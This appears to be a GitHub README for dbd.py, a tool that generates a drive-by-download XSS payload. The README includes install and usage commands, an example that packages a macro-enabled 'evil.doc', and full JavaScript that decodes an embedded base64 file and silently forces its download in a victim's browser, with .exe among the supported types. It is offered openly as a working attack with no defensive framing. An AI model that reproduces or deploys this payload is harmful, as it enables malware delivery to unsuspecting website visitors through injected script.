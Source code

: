 # dbd.py (drive-by-download)

Generate a post exploit script to download an arbitrary file using HTML5's Blob object (https://developer.mozilla.org/en-US/docs/Web/API/Blob). Say goodbye to ```alert(1)```.

# install

```shell
$ git clone https://github.com/demetrius-ford/dbd.py
$ cd dbd.py/ && pip3 install -r requirements/all.txt
```

# usage

```bash
Usage: dbd.py [OPTIONS]

  Generate a drive-by-download XSS payload.

Options:
  --version
  --extension [.doc|.pdf|.exe]
  --save-file FILE
  --help                          Show this message and exit.
```

Create a macro-enabled document, then run:

```bash
$ python3 dbd.py --extension=".doc" --save-file="evil.doc"
```

Serve the script with tooling of your choice :smiling_imp:

```javascript
class MimeFactory {
  constructor(type) {
    const mimes = {
      '.doc': 'application/msword'
      , '.pdf': 'application/pdf'
      , '.exe': 'application/octet-stream'
    , }

    if (!(type in mimes)) {
      return;
    }

    this.type = mimes[type];
  }
}

((file, payload) => {
  const empty = ({
    length
  }) => length === 0;

  if (empty(file) || empty(payload)) return;

  const decoded = window.atob(payload);

  const mime = new MimeFactory(file);
  const size = payload.length;
  const link = document.createElement('a');

  const bin = new Uint8Array(size);
  for (let i = 0; i < size; i++) {
    bin[i] = decoded.charCodeAt(i);
  }

  const blob = new Blob([bin.buffer]
    , {
      type: mime.type
    });

  const url = window.URL.createObjectURL(blob);

  link.style = 'display:none;';
  link.href = url;
  link.download = file;

  document.body.appendChild(link);
  link.click();

  window.URL.revokeObjectURL(url);
  document.body.removeChild(link);

})('657hi94.doc', '...');
```

